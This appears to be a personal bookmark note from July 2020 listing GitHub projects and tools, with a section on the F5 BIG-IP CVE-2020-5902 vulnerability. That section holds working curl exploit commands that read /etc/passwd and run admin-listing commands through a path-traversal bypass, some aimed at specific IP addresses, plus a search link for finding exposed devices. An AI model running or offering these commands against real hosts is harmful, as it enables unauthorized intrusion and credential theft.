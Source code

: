 

## 20200708

Backstage is an open platform for building developer portals
https://github.com/spotify/backstage

A replayable arcade shooter with a focus on build theorycrafting. 
Use a massive skill tree, many classes and ships to create your own builds and defeat an ever increasing amount of enemies.
https://github.com/a327ex/BYTEPATH

Rich 是一个 Python 库，可以为您在终端中提供富文本和精美格式。
https://github.com/willmcgugan/rich/blob/master/README.cn.md

深度学习500问
https://github.com/scutan90/DeepLearning-500-questions

Python　jupter 可视化工具| 有用
https://github.com/jbesomi/texthero

CVE-2020-5902：F5 BIG-IP 远程代码执行漏洞在野利用分析
https://research.nccgroup.com/2020/07/05/rift-f5-networks-k52145254-tmui-rce-vulnerability-cve-2020-5902-intelligence/
https://github.com/jas502n/CVE-2020-5902
查看哪里有F5 BIG-IP
https://www.zoomeye.org/searchResult?q=app%3A%22F5%20BIG-IP%20load%20balancer%22 
BIG-IP 15.0.0 < 15.1.0.3 / 14.1.0 < 14.1.2.5 / 13.1.0 < 13.1.3.3 / 12.1.0 < 12.1.5.1 / 11.6.1 < 11.6.5.1 - Traffic Management User Interface 'TMUI' Remote Code Execution (PoC)
https://www.exploit-db.com/exploits/48643
192.72.126.60
curl -v -k  'https://50.121.73.138/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd'
curl -v -k  'https://50.121.73.138/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+auth+user+admin'
curl -v -k  'https://[F5 Host]/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd'
curl -v -k  'https://[F5 Host]/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+auth+user+admin'
F5 BIG-IP远程代码执行漏洞 - CVE-2020-5902
https://nosec.org/home/detail/4503.html

https://github.com/NeuromatchAcademy/course-content

all on one
https://github.com/Z4nzu/hackingtool
对象识别
https://github.com/JaidedAI/EasyOCR
https://github.com/Pierian-Data/Complete-Python-3-Bootcamp

可视化数据对比工具
https://github.com/fbdesignpro/sweetviz

Filebeat 收集日志的那些事儿
https://mp.weixin.qq.com/s/ex3_bex7eOxlAIVVfPEjOQ
Filebeat	收集日志文件
Metricbeat	收集各种指标数据
Packetbeat	收集网络数据包
Auditbeat	收集审计数据
Heartbeat	收集服务运行状态监测数据

